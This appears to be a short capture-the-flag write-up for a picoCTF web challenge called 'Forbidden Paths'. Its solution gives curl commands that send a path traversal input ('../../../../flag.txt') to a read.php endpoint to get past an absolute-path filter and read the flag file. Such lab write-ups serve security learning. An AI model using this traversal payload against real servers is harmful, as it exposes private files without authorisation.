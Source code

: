 # [Forbidden Paths [Web Exploitation] [200 Points]](https://play.picoctf.org/practice/challenge/270?category=1&originalEvent=70&page=1) #

## Description ##
Can you get the flag?

We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. 

Can you get past the filter to read the flag?

Here's the website.

## Hints ##

## Solution ##

### Step 1: Description ###
![](images/webpage.png)

![](images/webpage_flag.png)


    curl -d 'filename=../../../../flag.txt' http://saturn.picoctf.net:62822/read.php

![](images/webpage_retrieveFlag.png)

    curl -d 'filename=../../../../flag.txt' http://saturn.picoctf.net:62822/read.php | grep -oE 'picoCTF{.*}' | tee >(xsel -b)



